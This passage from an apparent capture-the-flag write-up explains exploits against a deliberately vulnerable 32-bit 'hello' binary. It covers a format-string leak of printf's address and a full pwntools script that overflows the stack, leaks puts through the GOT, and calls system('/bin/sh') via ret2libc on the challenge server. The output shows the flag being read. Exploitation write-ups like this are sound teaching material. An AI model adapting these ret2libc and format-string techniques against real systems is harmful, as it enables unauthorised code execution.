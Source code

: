 The 2nd stage format string will end up being: `%03b$004s\x60\x84\x04\x08`.  When `printf` "prints" this, it will emit the value referenced by `0x8048460` as a 4-byte (`04s`) string.  This is the address of `printf`.

The rest is similar to the previous exploit.

Output:

```bash
# ./exploit2.py
[*] '/pwd/datajerk/csictf2020/smash/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chall.csivit.com on port 30046: Done
[*] '/pwd/datajerk/csictf2020/smash/libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf 0xf7de3030
[*] baselibc 0xf7d9a000
[*] Switching to interactive mode

$ cat flag.txt
csictf{5up32_m4210_5m45h_8202}
```


### Exploit 3: All Smash

_What if there were no format-string exploit?_

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./hello')
context.update(arch='i386',os='linux')

p = remote('chall.csivit.com', 30046)
libc = ELF('libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so')

payload  = 0x88 * b'A'
payload += p32(binary.plt.puts)
payload += p32(binary.sym.main)
payload += p32(binary.got.puts)

p.sendlineafter('name?\n', payload)
p.recvuntil('!\n')
_ = p.recv(4)
puts = u32(_ + (4-len(_))*b'\x00')
log.info('puts: ' + hex(puts))
baselibc = puts - libc.sym.puts
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

payload  = 0x88 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('name?\n', payload)
```